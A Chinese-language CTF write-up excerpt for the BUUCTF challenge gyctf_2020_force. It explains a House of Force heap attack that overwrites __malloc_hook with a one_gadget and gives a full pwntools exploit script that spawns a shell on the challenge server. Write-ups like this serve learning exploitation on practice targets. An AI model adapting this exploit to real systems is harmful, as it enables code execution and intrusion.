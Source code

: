 得到了libc 我们是不是该写入hook了呀，可是发现哎，草了，没有dele。

但是我们有top chunk和hook的真实地址啊 这不就得到2者之间的offset的了吗

建造offset大小的chunk挤到hook的地址上，然后在里面写入onegadget 下次add的时候就是getshell啦嘻嘻

来看exp吧

realloc压栈的话看情况吧

```c
from pwn import *

r = remote("node4.buuoj.cn", 28991)
#r = process("./gyctf_2020_force")

context.log_level = 'debug'

elf = ELF("./gyctf_2020_force")
libc = ELF('./libc-2.23.so')
one_gadget_16 = [0x45216,0x4526a,0xf02a4,0xf1147]

def add(size, content):
	r.recvuntil("2:puts\n")
	r.sendline('1')
	r.recvuntil("size\n")
	r.sendline(str(size))
	r.recvuntil("bin addr ")
	addr = int(r.recvuntil('\n').strip(), 16)
	print(hex(addr))
	r.recvuntil("content\n")
	r.send(content)
	return addr


def show(index):
	r.recvuntil("2:puts\n")
	r.sendline('2')

libc.address = add(0x200000, 'chunk0\n') + 0x200ff0
success('libc_base'+hex(libc.address))
heap_addr = add(0x18, 'a'*0x10+p64(0)+p64(0xFFFFFFFFFFFFFFFF))
#gdb.attach(r)

success("heap_addr:"+hex(heap_addr))
top = heap_addr + 0x10
malloc_hook = libc.sym['__malloc_hook']
success("malloc_hook"+hex(malloc_hook))
one_gadget = one_gadget_16[1] + libc.address
realloc = libc.sym["__libc_realloc"]
offset = malloc_hook - top
print((offset))
#gdb.attach(r)

add(offset-0x33, 'aaa\n')
add(0x10, 'a'*8+p64(one_gadget)+p64(realloc+0x10))
r.recvuntil("2:puts\n")
r.sendline('1')
r.recvuntil("size\n")
r.sendline(str(20))

r.interactive()


```
